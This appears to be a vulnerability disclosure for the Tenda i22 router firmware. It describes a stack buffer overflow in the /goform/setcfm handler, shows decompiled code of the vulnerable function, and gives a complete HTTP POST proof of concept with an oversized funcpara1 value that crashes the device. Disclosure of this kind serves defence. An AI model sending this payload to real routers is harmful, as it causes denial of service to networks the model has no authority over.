



# Tenda i22 V1.0.0.3(4687) was discovered to contain a buffer overflow via the funcpara1 parameter in the formSetCfm function.

## Description

`Tenda`  Router **i22 V1.0.0.3(4687)** was discovered to contain a buffer overflow in the `httpd` module when handling `/goform/setcfm` request.

## Firmware information

* Manufacturer's address: https://www.tenda.com.cn/

* Firmware download address : https://www.tenda.com.cn/download/detail-2747.html

## Affected version



## Vulnerability details

This vulnerability lies in the `/goform/setcfm` page，The details are shown below:

In formSetCfm function



In sub_69F64

```
int __fastcall sub_69F64(const char *a1, char *a2, unsigned __int8 a3)
{
  int result; // r0
  char v7[8]; // [sp+14h] [bp-160h] BYREF
  char v8[256]; // [sp+1Ch] [bp-158h] BYREF
  char s[64]; // [sp+11Ch] [bp-58h] BYREF
  char *v10; // [sp+15Ch] [bp-18h]
  int v11; // [sp+160h] [bp-14h]
  char *v12; // [sp+164h] [bp-10h]

  memset(s, 0, sizeof(s));
  memset(v8, 0, sizeof(v8));
  v11 = 0;
  if ( strlen(a2) > 4 )
  {
    ++v11;
    v12 = a2;
    while ( 1 )
    {
      v10 = strchr(v12, a3);
      if ( !v10 )
        break;
      *v10++ = 0;
      memset(s, 0, sizeof(s));
      sprintf(s, "%s.list%d", a1, v11);
      SetValue(s, v12);
      v12 = v10;
      ++v11;
    }
    memset(s, 0, sizeof(s));
    sprintf(s, "%s.list%d", a1, v11);
    SetValue(s, v12);
    sprintf(v7, "%d", v11);
    sprintf(s, "%s.listnum", a1);
    SetValue(s, v7);
    memset(s, 0, sizeof(s));
    sprintf(s, "%s.list%d", a1, ++v11);
    result = GetValue(s, v8);
    while ( v8[0] )
    {
      UnSetValue(s);
      memset(s, 0, sizeof(s));
      memset(v8, 0, sizeof(v8));
      sprintf(s, "%s.list%d", a1, ++v11);
      result = GetValue(s, v8);
    }
  }
  else
  {
    memset(s, 0, sizeof(s));
    sprintf(s, "%s.listnum", a1);
    SetValue(s, "0");
    memset(s, 0, sizeof(s));
    memset(v8, 0, sizeof(v8));
    sprintf(s, "%s.list%d", a1, ++v11);
    result = GetValue(s, v8);
    while ( v8[0] )
    {
      UnSetValue(s);
      memset(s, 0, sizeof(s));
      memset(v8, 0, sizeof(v8));
      sprintf(s, "%s.list%d", a1, ++v11);
      result = GetValue(s, v8);
    }
  }
  return result;
}
```



## POC

This POC can result in a Dos.

```
POST /goform/setcfm HTTP/1.1
Host: 192.168.204.133
Content-Length: 2101
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.204.133
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.204.133/system_hostname.asp?version=1487847846
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: bLanguage=cn; password=jbl1qw; user=
Connection: close

funcname=save_list_data&funcpara2=aaaaa&funcpara1=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

